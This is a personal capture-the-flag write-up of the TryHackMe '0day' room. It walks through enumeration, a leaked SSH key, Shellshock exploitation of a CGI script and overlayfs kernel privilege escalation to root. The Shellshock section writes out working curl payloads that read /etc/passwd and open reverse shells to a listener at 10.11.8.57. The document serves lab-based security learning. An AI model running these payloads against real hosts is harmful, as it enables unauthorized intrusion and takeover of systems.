


# 0day (THM)

- https://tryhackme.com/room/0day
- March 22, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP

- home page - nothing interesting found


- directory brute forcing with fffu

```
admin -> nothing found
backup
css
img
cgi-bin -> 403
js
robots.txt -> nothing found
secret
uploads -> nothing found
```
- backup -> private key



- secret


- copy the rsa key and save it as id_rsa

```sh
$ touch id_rsa
$ chmod 600 id_rsa 

# Tried to crack as sometimes it gives a hint for username
$ /opt/tools/john/run/ssh2john.py id_rsa > forj
$ john forj
# passphrase -> letmein
```
- no hint for username
- in home page, there is a name of the creater of this room
- `0day`, `Ryan Montgomery`
- try usernames with information from home page
- not success

- nothing to do now
- there was a `cgi-bin` directory which is 403
- try to brute force this directory
- in cgi-bin, there may be files with `.cgi` extensions
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi
- nikto result came out

```
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```


## User Access

### using script

- found shellshock exploit from github
- https://github.com/b4keSn4ke/CVE-2014-6271/blob/main/shellshock.py



- get `www-data` access
- just interesting cgi content

### Manual exploit

- command execution can be done at user-agent header or cookie header like this
  
```sh
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd" http://$IP/cgi-bin/test.cgi
```
- need to execute absolute path
- listen with nc and

```sh
$ curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/bash -i >& /dev/tcp/10.11.8.57/4242 0>&1" http://$IP/cgi-bin/test.cgi
```
or
```sh
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.11.8.57/4242 0>&1' http://$IP/cgi-bin/test.cgi
```

```sh
www-data@ubuntu:/usr/lib/cgi-bin$ cat test.cgi
cat test.cgi
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Hello World!\n"
```

```sh
www-data@ubuntu:/tmp$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

- there is a kernel exploit `Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation`
- https://www.exploit-db.com/exploits/37292
- get this c file and compile in remote machine but got an error

```sh
www-data@ubuntu:/tmp$ gcc overlayfs.c -o ofs
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
- check PATH variable

```sh
www-data@ubuntu:/tmp$ echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
```
- i remove the last dot from PATH varable and run it and get
- (I don't know how it works)


## Root Access

```sh
www-data@ubuntu:/tmp$ export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
www-data@ubuntu:/tmp$ echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin

www-data@ubuntu:/tmp$ gcc overlayfs.c -o ofs
gcc overlayfs.c -o ofs

www-data@ubuntu:/tmp$ ls
ls
linpeas.sh  lp_out.ansi  ofs  overlayfs.c

www-data@ubuntu:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root

```